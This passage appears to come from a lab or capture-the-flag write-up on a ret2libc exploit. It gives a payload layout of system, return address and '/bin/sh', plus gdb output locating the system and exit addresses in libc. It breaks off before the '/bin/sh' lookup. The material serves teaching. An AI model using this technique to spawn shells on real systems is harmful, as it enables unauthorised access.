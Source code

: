 ## Payload

A `ret2libc` (`return-to-libc`) attack is a technique where an attacker exploits a buffer overflow vulnerability to redirect the program's control flow to call functions from the `libc` library, such as `system()`, `execve()`, or `popen()`. This attack is effective when the stack is non-executable (`NX`), preventing direct execution of injected shellcode.

The basic formula for a `ret2libc` attack payload is:

```bash
[Address of system()]  +  
[Address of ‘ret‘ instruction within libc]  +  
[Address of argument ("/bin/sh" or command)]
```
We can construct the payload using the `system` function + the `/bin/sh` string, that typically resides within the `libc` library (`libc.so`).

### Search for `System` address

We find the `system` function address at `0xf7e6aed0`.

```bash
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```

### Search for `exit` address

We find the `exit` function address at `0xf7e5eb70`.

```bash
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
0xf7e5eba0  on_exit
0xf7e5edb0  __cxa_atexit
0xf7e5ef50  quick_exit
0xf7e5ef80  __cxa_at_quick_exit
0xf7ee45c4  _exit
0xf7f27ec0  pthread_exit
0xf7f2d4f0  __cyg_profile_func_exit
0xf7f4bc30  svc_exit
0xf7f55d80  atexit
```

### Search for `/bin/sh` address
